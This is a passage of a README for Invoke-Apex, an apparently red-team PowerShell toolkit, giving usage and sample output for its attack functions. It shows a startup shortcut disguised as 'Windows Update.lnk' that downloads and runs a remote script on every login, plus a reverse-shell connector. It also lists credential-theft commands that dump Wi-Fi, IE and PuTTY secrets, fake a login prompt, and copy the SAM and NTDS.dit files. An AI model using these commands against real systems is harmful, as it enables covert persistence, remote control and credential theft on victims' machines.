    [*] Usage: Invoke-Persistence -StartupLnk -PsUrl https://yourserver/script.ps1
   [*] Usage: Invoke-Persistence -StartupLnk -PsUrl https://yourserver/script.ps1 -Encoded
   [*] Usage: Invoke-Persistence -StartupLnk -Clean (Removes startup lnk)


   [*] Mitre ATT&CK Ref: T1060 (Registry Run Keys / Startup Folder)

...

```

```PS> Invoke-Persistence -StartupLnk -PsFileUrl http://192.168.42.89/script.ps1```

```
PS> Invoke-Persistence -StartupLnk -PsFileUrl http://192.168.42.89/script.ps1

### Invoke-Persistence(StartupLnk) ###

 [+] Success! "Windows Update.lnk" Installed:
        C:\Users\user\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Windows Update.lnk file.

 [+] LNK Target:
        C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass -nop "IEX (New-Object Net.Webclient).downloadstring('http://192.168.42.89/script.ps1')"

### Invoke-Persistence(StartupLnk) ###
```

# Available Functions / Commands

## Invoke-Apex
```Invoke-Apex``` (Lists all available functions)

## Invoke-Connect
Transfers all Apex functionality to a remote SSL listener, and also functions as a non-interactive powershell reverse "shell" if invoked as a stand-alone cmdlet. (SSL-enabled listener is required)

![screenshot](https://raw.githubusercontent.com/securemode/Invoke-Apex/master/img/Invoke-Connect.png)

Usage: ```PS> Invoke-Connect -ListenerIp 192.168.1.1 -ListenerPort 443```

## Invoke-Creds
Several commands to assist in obtaining credentials from the target host.

#### Available Commands:

```-WiFiCreds```  (Dumps saved Wireless Credentials)

```-IeCreds```    (Dumps saved IE credentials)

```-AuthPrompt``` (Invokes an authentication prompt to the target and captures any entered credentials)

```-PuttyKeys```  (Dumps any saved putty sessions/keys/passwords)

```-CopySAM```    (Utilizes Volume Shadow Copy to copy the SAM, SYSTEM and SECURITY files for offline parsing.)

```-CopyNtds```   (Utilizes Volume Shadow Copy to copy the NTDS.dit and SYSTEM files for offline parsing.)

## Invoke-Compile
Compiles some of Apex's functionality to .NET Assemblies.

#### Available Commands:

```-CopySAM```    (Invoke-Creds -CopySAM functionality compiled as a .NET Assembly.)

```-WiFiCreds```  (Invoke-Creds -WiFiCreds functionality compiled as a .NET Assembly.)
```